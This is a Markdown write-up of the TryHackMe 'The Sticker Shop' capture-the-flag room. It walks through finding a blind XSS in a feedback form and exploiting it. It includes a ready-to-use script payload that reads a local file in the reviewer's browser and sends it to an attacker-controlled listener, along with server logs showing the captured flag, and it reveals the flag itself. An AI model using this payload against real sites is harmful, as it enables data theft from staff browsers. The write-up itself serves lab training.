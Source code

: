 ```yaml
---
title: The Sticker Shop
published: 2024-12-01
description: "Your local sticker shop has finally developed its own webpage."
image: ""
tags: ["Blind XSS", "FeedBack", "Owasp", "Local"]
category: 'THM'
draft: false
---
```


> In this Path *http://10.10.62.132:8080/flag.txt* , I Dont have access !!!

## Website Overview

- The website consists of two pages:

> Home Page

  -  Displays a simple interface with cat stickers and some styling.
  -  No apparent vulnerabilities were found here.

> Submit Feedback Page

  -  Contains a feedback form with a textarea for users to submit their comments.
  -  The form sends a POST request to /submit_feedback.

> Initial Observations

  -  The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).
  -  The response to a normal feedback submission is: Thanks for your feedback! It will be evaluated shortly by our staff.

![feedback Picture](./The-Sticker-Shop-Images/feedback.png)

## Blind XSS Discovery
> Testing for Blind XSS

  -  I used Burp Collaborator to check if a Blind XSS vulnerability existed.
  -  Payload used: ``` '"><script src=https://exemple.com></script>```

> After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.
> Vulnerability Context

  -  Since the feedback is processed and evaluated by staff, any malicious JavaScript submitted through the form will execute when the feedback is reviewed.
  -  This confirmed the presence of a Blind XSS vulnerability.

## Exploitation
> Setting Up the Listener

  -  I needed a way to exfiltrate data from the server, so I set up a Python HTTP server to act as my listener:

```python
python3 -m http.server 8000
```
## Crafting the Exploit Payload

> To exploit the vulnerability, I crafted a JavaScript payload that:

  -  Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).

> I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.

> Sends the retrieved content to my HTTP server.

## **Payload:**
```js
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

> - Note: Edit and Replace your own IP Address.

![Payload Picture](./The-Sticker-Shop-Images/payload.png)

## Injecting the Payload

-    I submitted the payload in the feedback form.
-    Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.

> Example captured request:

```bash
➜  CTF-Writeups python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.62.132 - - [18/Dec/2024 05:02:58] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:08] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:19] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:29] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:39] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:49] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:00] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:10] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:20] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:31] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:41] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:51] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

**GOOD LUCK...**